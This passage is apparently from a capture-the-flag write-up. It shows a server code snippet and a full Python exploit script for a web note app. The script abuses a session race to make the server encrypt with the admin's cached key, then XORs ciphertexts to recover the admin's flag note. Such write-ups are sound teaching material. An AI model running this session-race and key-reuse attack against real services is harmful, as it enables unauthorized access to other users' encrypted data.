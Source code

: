 ```python
key = backend.cache_load(flask.session.sid)
if key is None:
    raise WebException("Cached key")
text = backend.xor_1337_encrypt(
  data=text,
  key=key,
)
```

If done correctly, we can create a new note with admin's key. Here is the exploit script:

```python
#!/usr/bin/env python3
import requests
import subprocess
import time

# admin encrypted note: http://solution.hackable.software:8080/note/show/1
admin_note_enc = bytes.fromhex('07D8B68CDB92A687DFC74217C9D7F47E84540A3C97BA3D2B8B5B3E1C110A4C54F09392ADC910461BF61AA4AC6D921591556D1AAFCB8495144C27748369FC101847D7C2A9508F6534FFB7BCF859FD3ED8863611400F9ECB56064C20EDF0B6F6B1BF1CBB522A91F0C9B2')
s = requests.session()

# Login
s.post('http://solution.hackable.software:8080/login/user', data=dict(login='slowbro'))
s.post('http://solution.hackable.software:8080/login/auth', data=dict(password='slowbro<3', token=''))
sid = s.cookies.get_dict().get('solution')

# session race condision: save admin cached key
subprocess.Popen([
    'curl', 'http://solution.hackable.software:8080/login/user',
    '--cookie', 'solution=' + sid,
    '-d', 'login=admin'
])
time.sleep(1)

# encrypt our note with admin's key
s.post('http://solution.hackable.software:8080/note/add', data=dict(text='\x00'*len(admin_note_enc)))


# my_note : http://solution.hackable.software:8080/note/show/[NOTE_NUMBER]
my_note_enc = bytes.fromhex('4FB198AC92B2D1EEACAF6242E9BB811DEF7A2A73F9D6440BC27B5D7D7F2A3C3B83E0F7DEE9762A7A912084E81FF57BC22E212AC3EADBC04B24130EDC0BAE24792C88B6C131FB3A018AC7CEA72ECE0DBAB246616148ECAA227C6D5DCDDE98D891D7799B3A4FB198AC92')
print(''.join(chr(i^j) for i, j in zip(admin_note_enc, my_note_enc)))
'''
Hi. I wish U luck. Only I can posses flag: DrgnS{L0l!_U_h4z_bR4ak_that_5upr_w33b4pp!Gratz!} ... he he he 
'''
```
